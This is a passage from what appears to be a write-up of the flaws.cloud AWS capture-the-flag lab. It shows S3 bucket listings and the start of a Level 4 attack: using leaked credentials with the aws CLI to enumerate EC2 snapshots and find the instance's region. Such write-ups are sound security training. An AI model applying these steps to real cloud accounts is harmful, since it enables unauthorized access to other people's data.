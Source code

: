 ```
            "Name": "level3-9afd3927f195e10225021a578e6f78df.flaws.cloud",
            "CreationDate": "2017-02-26T18:15:44.000Z"
        },
        {
            "Name": "level4-1156739cfb264ced6de514971a4bef68.flaws.cloud",
            "CreationDate": "2017-02-26T18:16:06.000Z"
        },
        {
            "Name": "level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud",
            "CreationDate": "2017-02-26T19:44:51.000Z"
        },
        {
            "Name": "level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud",
            "CreationDate": "2017-02-26T19:47:58.000Z"
        },
        {
            "Name": "theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud",
            "CreationDate": "2017-02-26T20:06:32.000Z"
        }
    ],
    "Owner": {
        "DisplayName": "0xdabbad00",
        "ID": "d70419f1cb589d826b5c2b8492082d193bca52b1e6a81082c36c993f367a5d73"
    }
}
```

## Level 4

Reading the Level 4 web page gives us more information about this level. An EC2 instance is hosting a web server at http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud. And it seems that this level is about attacking the compute instance used to run the web server, via attempting togain access to its historial snapshots.

### **EC2 snapshots**

Assuming no console access, what can we do with snapshots at the command line?
```
root@kali:~ # aws ec2 help | grep snapshot
       o copy-snapshot
       o create-snapshot
       o create-snapshots
       o delete-snapshot
       o describe-fast-snapshot-restores
       o describe-import-snapshot-tasks
       o describe-snapshot-attribute
       o describe-snapshots
       o disable-fast-snapshot-restores
       o enable-fast-snapshot-restores
       o import-snapshot
       o modify-snapshot-attribute
       o reset-snapshot-attribute
root@kali:~ # aws --profile git  ec2 describe-snapshots
You must specify a region. You can also configure your region by running "aws configure".
```
Most of them require specifying a region. The region of the Level 4 EC2 instance URL can be found via
```
root@kali:~ # host 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud
4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud is an alias for ec2-35-165-182-7.us-west-2.compute.amazonaws.com.
ec2-35-165-182-7.us-west-2.compute.amazonaws.com has address 35.165.182.7
```
To scope the snapshots to the leaked user credential, we use 